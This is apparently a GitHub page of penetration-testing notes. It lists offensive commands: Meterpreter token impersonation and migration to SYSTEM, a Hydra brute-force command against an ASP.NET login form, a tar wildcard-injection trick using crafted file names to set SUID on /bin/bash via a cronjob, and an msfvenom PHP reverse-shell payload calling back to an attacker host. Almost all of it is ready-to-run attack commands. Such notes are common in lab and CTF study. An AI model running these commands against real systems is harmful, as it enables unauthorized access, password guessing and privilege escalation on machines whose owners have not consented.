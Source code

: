 # To see privilege information in windows
```console
whoami /priv
```

# To impersonate other tokens using meterpreter
```console
load incognito
list_tokens -g
```

# To become NT system
```console
impersonate_token "BUILTIN\Administrators"
then migrate to a SYSTEM process (usually services.exe)
migrate <PID of services.exe>          
```

# Hydra brute force post
The http-post-form method require three arguments splitted by ":"
1. "Account/login.aspx", which you get from the URL 
2. "\_\_VIEWSTATE...Log+in", which you get using Burpsuite. Observe that you need also to insert ^USER^ and ^PASS^
3. Login Failed. Which is the most common case, deviations will be given as output.

```console
hydra - v -l admin -P /usr/share/wordlist/rockyou.txt <target_IP> http-post-form "/Account/login.aspx:__VIEWSTATE=i7MQNEYxCpsuWpX%2FARpaWiNDZbLxzhra5gcXSs0jSsiEg18uQztWWGsZy4ofbcUHTEqDrAnDifUKYN%2FCBdKAokaVydVNCiAwGHV4kPsIPzXP3xuFzYfOcCIDtBW0F7mNfw2AT%2BVl2rNLN4Cr8Ur9ReRZUq7%2BzU8yJjvGQcuanNcRj05P&__EVENTVALIDATION=wxH6yuXUPcWQy8HL%2F3WLAm2XyiAzbFlRZrMVEfPOK8DEZRYsARugOtVfq0q8lMKCsGX7%2BF0CdBZGVhwG97qfj%2FqoPwGgR9Hivgq8btr6BxRC28PmKpSu%2BlSYF36OVMJbTQ%2BmYqHRNXE44DKvaSrQ%2F9Ki%2F%2FQ%2FUC%2FW6fIzV7I7M5BQFijq&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"
```

# To abuse wildcard * in cronjobs
The below code creates a shell.sh that would be executed abusing a cronjob and setting the SUID bit on the binary /bin/bash
```
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=bash shell.sh"
echo "" > --checkpoint=1
```

# Php meterpreter using msfvenom
```console
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

